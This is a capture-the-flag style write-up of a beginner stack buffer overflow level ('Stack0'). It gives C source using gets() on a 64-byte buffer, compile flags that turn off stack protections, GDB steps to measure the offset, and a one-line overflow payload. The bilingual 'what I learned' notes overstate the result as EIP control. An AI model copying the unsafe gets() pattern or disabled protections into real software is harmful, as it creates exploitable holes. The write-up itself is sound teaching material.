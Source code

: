 # Objective

This level introduces the concept that memory can be accessed outside of its allocated region, how the stack variables are laid out, and that modifying outside of the allocated memory can modify program execution.

# Source code

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
```

# Explanation

1. **Compile**

```bash
gcc -m32 -std=gnu89 -fno-stack-protector -g -z execstack -no-pie Stack0.c -o Stack0
```

2. **Drop into GDB and locate vulnerable read**
```bash
gdb ./Stack0

(gdb) disassemble main
```
![Breakpoint](Images/BreakPointGets.png)

- Scan for call to `gets`/`strcpy`/`fgets` (whichever unsafe function used).
- Note its address, say `0x080491a6`.


3. **Break at that instruction**
```gdb
(gdb) break *0x080491a6
```

4. **Run a large dummy payload**
```gdb
#directly from GDB
(gdb) run < <(python3 -c "print('A'*200)")
```

5. **When it stops print the addresses**
```gdb
(gdb) print &buffer        # start of buffer
(gdb) print &modified     
```
![Disas](Images/GDBdisas.png)

This gives you the number of filler bytes you need to reach `target` (whether it’s a local var or saved RIP/EIP).

6. **Compute exact byte distance**
```gdb
(gdb) print (char*)&modified - (char*)&buffer #will find exact offset
64
```
![Offset](Images/OffsetStack0.png)

7. **Craft payload and execute**

```bash
python3 -c 'print("A"*64 + "B")' | ./Stack0
```
![Success](Images/Success.png)


# What I learned

- A basic stack-based buffer overflow can redirect execution with just user-supplied data—no need for advanced tricks.
- The magic number here is 64 bytes.
- GDB’s basics—disas, info registers, simple breakpoints—are enough to prove the takeover.
- Turning off modern flags (-fno-stack-protector, -z execstack, etc.) lets you see the raw bug in action.

# Ce que j’ai appris

- Un simple overflow sur la pile suffit à détourner le flux d’exécution ; pas besoin de gadgets sophistiqués.
- **64 octets** exactement : c’est la distance qui me donne la main sur EIP.
- Trois commandes GDB — `disas`, `break`, `info reg` — et le contrôle est évident.
- En désactivant les protections (`-fno-stack-protector`, `-z execstack`, `-no-pie`), on voit la vulnérabilité à l’état brut.
